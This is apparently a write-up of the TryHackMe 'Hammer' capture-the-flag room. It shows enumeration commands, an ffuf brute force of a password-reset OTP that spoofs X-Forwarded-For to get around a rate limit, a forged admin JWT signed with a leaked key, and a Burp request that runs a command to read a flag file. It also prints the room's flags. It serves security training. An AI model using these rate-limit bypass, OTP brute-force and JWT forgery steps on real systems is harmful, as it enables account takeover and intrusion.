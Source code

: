 # Room: Hammer

## General Info
- **Room link:** [Hammer](https://tryhackme.com/room/hammer)


## Description

With the Hammer in hand, can you bypass the authentication mechanisms and get RCE on the system?

## Provided Files / Links
- [x] Target Machine IP (10.10.249.72)

## Enumeration / Recon

- Port Enumeration:
` nmap -sV 10.10.249.72 -p- -T5`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

- Directory Enumeration

I enumerate on the port 1337:

`gobuster dir -u http://10.10.249.72:1337 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt`

```
/javascript           (Status: 301) [Size: 324] [--> http://10.10.249.72:1337/javascript/]
/vendor               (Status: 301) [Size: 320] [--> http://10.10.249.72:1337/vendor/]
/phpmyadmin           (Status: 301) [Size: 324] [--> http://10.10.249.72:1337/phpmyadmin/]
/server-status        (Status: 403) [Size: 279]
```


`gobuster dir -u http://10.10.249.72:1337 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-files.txt`

```
/index.php            (Status: 200) [Size: 1326]
/config.php           (Status: 200) [Size: 0]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/.htaccess            (Status: 403) [Size: 279]
/.                    (Status: 200) [Size: 1326]
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
/dashboard.php        (Status: 302) [Size: 0] [--> logout.php]
/.htpasswd            (Status: 403) [Size: 279]
/.htm                 (Status: 403) [Size: 279]
/.htpasswds           (Status: 403) [Size: 279]
/reset_password.php   (Status: 200) [Size: 1664]
/.htgroup             (Status: 403) [Size: 279]
/wp-forum.phps        (Status: 403) [Size: 279]
/.htaccess.bak        (Status: 403) [Size: 279]
/.htuser              (Status: 403) [Size: 279]
/.htc                 (Status: 403) [Size: 279]
/.ht                  (Status: 403) [Size: 279]
```

When visiting the index.php page (login form), I noticed a commentaire in the html:
`<!-- Dev Note: Directory naming convention must be hmr_DIRECTORY_NAME -->`.

I then used ffuf to enumerate the directories with the given pattern.

`ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 'http://10.10.249.72:1337/hmr_FUZZ'`

```
css                     [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 19ms]
js                      [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 19ms]
logs                    [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 20ms]
images                  [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 4349ms]
```

None of the directories/files that were enumerated with gobuster gave relevant information.

I then had a look at the /hmr_js, /hmr_css, /hmr_images and /hmr_logs, and found these relevant logs in /hmr_logs:

```
[Mon Aug 19 12:02:34.876543 2024] [authz_core:error] [pid 12347:tid 139999999999997] [client 192.168.1.12:37210] AH01631: user tester@hammer.thm: authentication failure for "/restricted-area": Password Mismatch
[Mon Aug 19 12:04:56.654321 2024] [core:error] [pid 12349:tid 139999999999995] [client 192.168.1.22:38100] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/protected
[Mon Aug 19 12:05:07.543210 2024] [authz_core:error] [pid 12350:tid 139999999999994] [client 192.168.1.25:46234] AH01627: client denied by server configuration: /home/hammerthm/test.php
[Mon Aug 19 12:06:18.432109 2024] [authz_core:error] [pid 12351:tid 139999999999993] [client 192.168.1.30:40232] AH01617: user tester@hammer.thm: authentication failure for "/admin-login": Invalid email address
[Mon Aug 19 12:09:51.109876 2024] [core:error] [pid 12354:tid 139999999999990] [client 192.168.1.50:45998] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/locked-down
```

Notes:
- tester@hammer.thm seems to be a valid email
- hammerthm is a user in the target machine

With the newly found email tester@hammer.thm, I then tried to brute-force the OTP in the http://10.10.249.72:1337/reset_password.php page with Burp Suite but there was a rate limit in place.

Once the request for the OTP is made, there is a counter of 180s that will redirect you to /logout.php if you don't have the right OTP.

Since there is a rate limit on this endpoint, I will be be fuzzing the "X-Forwarded-For" header to get a rate limit bypass.

First, I create a txt file containing all the possible pin numers (between 0000 and 9999):

`seq -w 0000 9999 > pins.txt `

Then I use the following ffuf command to launch the attack (after grabbing the right PHPSESSID cookie):

```
ffuf -w pins.txt -u "http://hammer.thm:1337/reset_password.php" -X “POST” -d "recovery_code=FUZZ&s=60" -H "Cookie: PHPSESSID=CookieID" -H "X-Forwarded-For: FUZZ" -H “Content-Type: application/x-www-form-urlencoded" -fr "Invalid" -s
```

(I use the flag -fr "Invalid" to filter out the responses containing the word "Invalid").

I then get the right OTP password: 8541.

I change the password for the user tester@hammer.thm and I'm now able to log in. I find the first flag: **THM{AuthBypass3D}**.

### Logged in access

Once logged in, I have a look at the dashboard.php request in the network tab of the browser and find a JWT token:

`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzQ3NTg4NDQyLCJleHAiOjE3NDc1OTIwNDIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJ1c2VyIn19.Rg_nED2D4PW7maxBWCh7BrlDs7nVR6FKicY6BV6nsFk`

Using jwt.io, I find that this jwt token needs a 256 bit secret.

Using the "command" field in the web page, I type `ls` and find that there is a `188ade1.key` file available. I navigate to http://10.10.249.72:1337/188ade1.key to download the resource.

`cat 188ade1.key` => `56058354efb3daa97ebab00fabd7a7d7`

 I change the role of the user in the JWT token ("role": "admin" instead of "role": "user") and I use this key to validate the jwt signature.

 The new JWT token with the admin permission is the following:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L2h0bWwvMTg4YWRlMS5rZXkifQ.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzQ3NTg4NDQyLCJleHAiOjE3NDc1OTIwNDIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJhZG1pbiJ9fQ.9uM0nkCPMrQA3sHY8Htrl5ALwn7RKYnyLmG45gjPEVM
```

The only thing left to do is now to make the POST request /execute_command.php with the JWT token with admin privileges.

I use Burp Suite with the following request:

```
POST /execute_command.php HTTP/1.1
Host: 10.10.249.72:1337
Content-Length: 39
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L2h0bWwvMTg4YWRlMS5rZXkifQ.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzQ3NTg4NDQyLCJleHAiOjE3NDc1OTIwNDIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJhZG1pbiJ9fQ.9uM0nkCPMrQA3sHY8Htrl5ALwn7RKYnyLmG45gjPEVM
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: */*
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Origin: http://10.10.249.72:1337
Referer: http://10.10.249.72:1337/dashboard.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=1h2f4encdgd906cqvbjtq17ehp; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzQ3NTg4NDQyLCJleHAiOjE3NDc1OTIwNDIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJhZG1pbiJ9fQ.md9lPE3rTrqVvsJmK1lB4ixAPCTmQyBuhP-Kd6LlAEI; persistentSession=no
Connection: keep-alive

{"command":"cat /home/ubuntu/flag.txt"}
```

And I get the flag **THM{RUNANYCOMMAND1337}** in the response:

```
{"output":"THM{RUNANYCOMMAND1337}\n"}
```
